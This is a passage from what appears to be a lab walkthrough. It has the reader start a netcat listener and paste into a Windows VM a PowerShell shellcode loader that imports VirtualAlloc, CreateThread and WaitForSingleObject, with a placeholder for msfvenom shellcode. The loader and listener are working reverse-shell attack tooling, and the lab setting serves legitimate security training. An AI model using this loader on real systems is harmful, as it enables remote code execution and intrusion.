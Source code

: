 On the AttackBox, execute the command `nc -nvlp 1111` to start a listener on port `1111` and wait for an incoming connection. This command opens port `1111` and listens for connections, allowing the AttackBox to receive data once a connection is made.


```shell
root@attackbox:~# nc -nvlp 1111 
Listening on [0.0.0.0] (family 0, port 1111) 
```


On the AttackBox, begin by navigating to the Desktop. Right-click on the `Desktop`, select `Create Document`, and then choose `Empty File`. Open this new file and paste the previously provided PowerShell script code into it. Look for the part labelled `SHELLCODE_PLACEHOLDER` and replace it with the shell code we previously created with `msfvenom`.


Once you've added the shellcode navigate to the attached VM, open PowerShell by clicking the PowerShell icon on the taskbar and paste parts of the code from the document you recently created to the Windows PowerShell window. For example, the first part to copy and paste is the block below:

```shell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   
```
